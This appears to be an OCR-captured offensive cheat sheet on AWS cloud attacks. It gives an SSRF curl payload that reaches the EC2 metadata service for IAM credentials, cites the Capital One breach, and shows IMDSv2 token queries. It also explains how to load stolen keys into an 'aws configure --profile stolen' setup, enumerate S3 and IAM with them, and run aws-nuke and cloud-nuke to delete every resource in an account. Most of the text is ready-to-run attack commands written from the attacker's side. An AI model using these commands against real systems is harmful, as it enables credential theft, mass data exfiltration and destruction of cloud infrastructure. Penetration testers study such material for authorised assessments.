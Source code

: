 ```text
   ◇ curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
• CapitalOne Hack
   ◇ Attacker exploited SSRF on EC2 server and accessed metadata URL to get IAM access keys. Then, used keys to dump S3 bucket containing 100 million individual’s data.
• AWS EC2 Instance Metadata service Version 2 (IMDSv2)
• Updated in November 2019 – Both v1 and v2 are available
• Supposed to defend the metadata service against SSRF and reverse proxy vulns
• Added session auth to requests
• First, a “PUT” request is sent and then responded to with a token
• Then, that token can be used to query data
--
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
curl http://example.com/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-Role
--

# If we can steal AWS credentials, add to your configuration
aws configure --profile stolen
# Open ~/.aws/credentials
# Under the [stolen] section add aws_session_token and add the discovered token value here
aws sts get-caller-identity --profile stolen


Post-compromise
• What do our access keys give us access to?
• WeirdAAL – Great tool for enumerating AWS access https://github.com/carnal0wnage/weirdAAL
   ◇ Run the recon_all module to learn a great deal about your access

https://github.com/toniblyx/my-arsenal-of-aws-security-tools
https://docs.aws.amazon.com/es_es/general/latest/gr/aws-security-audit-guide.html

export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_DEFAULT_REGION=

aws sts get-caller-identity
aws s3 ls
aws s3 ls s3://bucket.com
aws s3 ls --recursive s3://bucket.com
aws iam get-account-password-policy
aws sts get-session-token

# AWS nuke - remove all AWS services of our account
# https://github.com/rebuy-de/aws-nuke
- Fill nuke-config.yml with the output of aws sts get-caller-identity
./aws-nuke -c nuke-config.yml # Checks what will be removed
- If fails because there is no alias created
aws iam create-account-alias --account-alias unique-name
./aws-nuke -c nuke-config.yml --no-dry-run # Will perform delete operation
# Cloud Nuke
# https://github.com/gruntwork-io/cloud-nuke
cloud-nuke aws
```
